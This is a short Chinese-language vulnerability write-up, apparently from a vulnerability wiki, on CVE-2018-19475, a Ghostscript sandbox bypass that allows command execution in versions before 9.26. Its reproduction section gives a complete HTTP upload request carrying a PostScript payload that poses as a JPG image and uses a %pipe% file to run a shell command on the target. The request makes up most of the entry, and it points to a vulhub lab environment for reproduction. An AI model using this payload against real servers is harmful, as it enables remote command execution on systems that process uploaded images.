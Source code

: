 （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

二、漏洞影响
------------

Ghostscript 9.26之前版本

三、复现过程
------------

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

    POST /index.php HTTP/1.1
    Host: target
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
    Content-Length: 279

    ------WebKitFormBoundaryukZmnyhO
    Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
    content-Type="image/png"

    %!PS
    0 1 300367 {} for
    {save restore} stopped {} if
    (%pipe%id > /tmp/success && cat /tmp/success) (w) file
    ------WebKitFormBoundaryukZmnyhO--

命令已成功执行：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19475)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-19475/
